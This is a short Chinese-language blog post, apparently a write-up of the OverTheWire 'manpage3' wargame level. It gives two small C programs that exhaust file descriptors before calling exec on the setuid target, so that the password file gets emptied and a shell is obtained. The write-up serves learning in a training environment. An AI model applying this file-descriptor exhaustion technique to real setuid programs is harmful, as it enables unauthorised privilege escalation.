 ```yaml
---
title: manpage3
author: rk700
layout: post
redirect_from:
  - /writeup/2014/07/18/manpage3
  - /writeup/2014/07/18/manpage3/
tags:
  - OverTheWire
  - exploit
---
```

还是那个道理，打开的file descriptor会经过exec保存下来。我最开始的想法是，打开很多文件，然后执行manpage3，那么读密码那里就读空，因为密码文件打不开了 

{% highlight c %}
#include <unistd.h>
#include <stdlib.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <fcntl.h>

int main (int argc, char *args[]) {
    int i;
    for(i=4; i<1024; ++i)
        open("./do.c", O_RDONLY);
    execl("./manpage3", "./manpage3", NULL);
}
{% endhighlight %}

这里上限1024是从`ulimit -n`得到的

在我的机子上这样是可以的，但在主机那里就不行了……

然后用同样的思路执行manpage-reset，使得urandom打不开。这样的话程序会崩溃，但密码文件是&#8221;w&#8221;打开，offset还在文件起始处，所以什么都没写就关闭了 

{% highlight c %}
#include <unistd.h>
#include <stdio.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <fcntl.h>

int main (int argc, char *args[]) {
    int i;
    FILE *fp;
    for(i=4; i<1024; ++i)
        fp = fopen("/manpage/manpage3", "r");
    execl("/manpage/manpage3-reset", "/manpage/manpage3", NULL);
}
{% endhighlight %}

之后再执行manpage3，密码为空，得到shell
